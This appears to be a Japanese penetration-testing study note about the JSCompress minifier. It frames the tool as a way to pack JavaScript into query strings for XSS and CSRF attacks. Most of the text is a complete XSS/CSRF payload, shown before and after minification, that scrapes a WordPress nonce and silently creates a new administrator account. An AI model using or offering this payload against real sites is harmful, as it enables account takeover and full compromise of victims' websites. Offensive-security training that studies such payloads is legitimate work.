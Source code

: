# JSCompress
[公式ページ](https://jscompress.com/)

## 概要
JavaScriptのコードをワンライナーに変換してくれる。
これによってコードサイズを縮小でき、XSSやCSRFを使った攻撃をするときにクエリストリング内にJSのコードを埋め込むといったことができるようになる。

使い方は簡単で、ローカルで書いたJSのコードを貼り付け、JS Compressをクリック、そして出力されたコードをローカルに落とすだけ。

縮小前
```.js
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=hoge&email=hoge@offsec.com&pass1=hoge&pass2=hoge&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

縮小後
```.js
var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=hoge&email=hoge@offsec.com&pass1=hoge&pass2=hoge&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);
```